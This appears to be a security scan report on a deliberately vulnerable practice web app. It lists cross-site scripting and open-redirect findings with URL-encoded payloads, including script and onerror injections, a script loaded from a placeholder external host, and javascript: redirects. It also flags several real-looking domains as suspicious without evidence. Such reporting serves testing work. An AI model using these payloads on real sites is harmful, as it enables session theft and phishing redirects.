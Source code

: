 ### 🔍 External Domain Analysis
- `windowsanddoors-r-us.co.uk` (3 occurrences) - Suspicious redirect target
- `gysn.ru` (3 occurrences) - Potentially malicious domain
- `batmanapollo.ru` (3 occurrences) - Russian domain, security concern
- `bishop-re.com` (3 occurrences) - Unknown external domain

---

## 🚨 Critical Vulnerability Analysis

### 1. Cross-Site Scripting (XSS) Vulnerabilities

**📍 Affected Endpoints:**
```
🔴 HIGH RISK - Multiple XSS Injection Points:

1. HTML Injection via 'act' parameter:
   - /fastfoodhackings/index.php?act=--%3E%3Cb%3Elogintesttest%3C%2Fb%3E
   - /fastfoodhackings/index.php?act=--%3E%3Ch1%3Eaaa%3C%2Fh1%3E

2. Script Injection:
   - /fastfoodhackings/index.php?act=--%3E%3Cscript%3Ealert(2)%3C%2Fscript
   - /challenges/challenge-1.php?query=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

3. Event Handler Injection:
   - /fastfoodhackings/index.php?act=--%3E%3Cimg%20src=x%20onerror=alert(2)

4. External Script Loading:
   - /challenges/challenge-1.php?query=%3Cscript%20src=//yoursite.com/js.js
```

**🔥 Impact:** These XSS vulnerabilities allow attackers to:
- Execute arbitrary JavaScript in victim browsers
- Steal session cookies and authentication tokens
- Perform actions on behalf of authenticated users
- Redirect users to malicious websites

### 2. Open Redirect Vulnerabilities

**📍 Affected Endpoints:**
```
🟡 MEDIUM RISK - Open Redirect via 'returnUrl' parameter:

1. External Domain Redirects:
   - /fastfoodhackings/go.php?returnUrl=https://batmanapollo.ru/
   - /fastfoodhackings/go.php?returnUrl=https://gysn.ru/
   - /fastfoodhackings/go.php?returnUrl=http://bishop-re.com/k37
   - /fastfoodhackings/go.php?returnUrl=https://www.windowsanddoors-r-us.co.uk/

2. JavaScript Protocol Injection:
   - /fastfoodhackings/go.php?returnUrl=javascript:alert(3333)
   - /fastfoodhackings/go.php?returnUrl=javascript:alert(2)
   - /fastfoodhackings/go.php?returnUrl=javascript:alert(anjay)
```
